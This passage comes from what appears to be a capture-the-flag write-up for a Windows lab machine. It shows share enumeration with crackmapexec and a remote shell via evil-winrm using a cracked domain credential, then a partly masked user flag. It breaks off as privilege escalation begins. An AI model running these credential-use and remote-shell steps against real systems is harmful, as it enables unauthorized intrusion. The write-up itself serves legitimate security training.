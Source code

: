 
There’s one success: `MEGACORP\tushikikatomo:finance1`.

With these new creds, I have access to three shares:

    
    
    root@kali# crackmapexec smb 10.10.10.179 -u tushikikatomo -p finance1 --shares
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
    SMB         10.10.10.179    445    MULTIMASTER      [+] Enumerated shares
    SMB         10.10.10.179    445    MULTIMASTER      Share           Permissions     Remark
    SMB         10.10.10.179    445    MULTIMASTER      -----           -----------     ------
    SMB         10.10.10.179    445    MULTIMASTER      ADMIN$                          Remote Admin
    SMB         10.10.10.179    445    MULTIMASTER      C$                              Default share
    SMB         10.10.10.179    445    MULTIMASTER      Development                     
    SMB         10.10.10.179    445    MULTIMASTER      dfs             READ            
    SMB         10.10.10.179    445    MULTIMASTER      E$                              Default share
    SMB         10.10.10.179    445    MULTIMASTER      IPC$                            Remote IPC
    SMB         10.10.10.179    445    MULTIMASTER      NETLOGON        READ            Logon server share 
    SMB         10.10.10.179    445    MULTIMASTER      SYSVOL          READ            Logon server share
    

### WinRM

I also have access to a shell over WinRM:

    
    
    root@kali# evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i 10.10.10.179
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\alcibiades\Documents>
    

And `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\alcibiades\desktop> type user.txt
    8264c025************************
    

## Priv: tushikikatomo –> cyork

### Enumeration

I wanted to check out the web stuff, but this user doesn’t have access to
`\inetpub\wwwroot`:

    
    
    *Evil-WinRM* PS C:\inetpub\wwwroot> dir
    Access to the path 'C:\inetpub\wwwroot' is denied.
    At line:1 char:1
    + dir
    + ~~~
        + CategoryInfo          : PermissionDenied: (C:\inetpub\wwwroot:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    